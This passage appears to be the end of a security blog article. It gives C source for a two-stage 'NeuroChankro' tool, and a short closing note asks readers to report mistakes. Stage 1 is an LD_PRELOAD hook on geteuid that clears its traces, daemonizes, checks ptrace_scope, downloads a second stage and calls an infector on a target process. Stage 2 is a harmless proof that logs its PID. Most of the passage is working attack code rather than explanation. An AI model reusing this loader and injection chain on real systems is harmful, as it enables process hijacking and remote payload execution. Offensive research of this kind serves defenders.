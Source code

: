 ```c
    close(fd);
}

void daemonize(void) {
        signal(SIGHUP, SIG_IGN);
            if (fork() != 0) {
                        exit(EXIT_SUCCESS);
                            }
}

void pwn(void) {
    fprintf(stderr, "====[ NeuroChankro Stage 1 ]====\n");

    // Check ptrace_scope
    fprintf(stderr, "[+] Checking ptrace_scope... ");
    if (check_yama() == 0) {
        fprintf(stderr, "value is 0\n");
    } else {
        fprintf(stderr, "value is not 0. Exiting...\n");
        exit(-1);
    }
   
    // Download Stage 2
    download();
    // Try to infect
    infector(atoi(getenv("NEUROCHANKRO")));    
}

uid_t geteuid() {
  uid_t (*orig_geteuid)();
  orig_geteuid = dlsym(RTLD_NEXT, "geteuid");
  unsetenv("LD_PRELOAD");
  daemonize();
  pwn();
  return orig_geteuid();
}
```
__Stage 2__
```c
// Stage 2 - Just log to know that everything worked 
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

void __attribute__ ((constructor)) alert_init(void);

void alert_init(void) {
    FILE *fp;
    char chivato[20];
    snprintf(chivato, sizeof(chivato), "PID: %d", getpid());
    fp = fopen("/tmp/chivato", "w");
    fwrite(chivato, 1, strlen(chivato) + 1, fp);
    fclose(fp);
}
```

## Final words
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
I wrote this article without time, so maybe I could make mistakes. Please ping me at twitter ([@TheXC3LL](https://twitter.com/TheXC3LL)) if you find any mistake so I can correct it. Thank you!

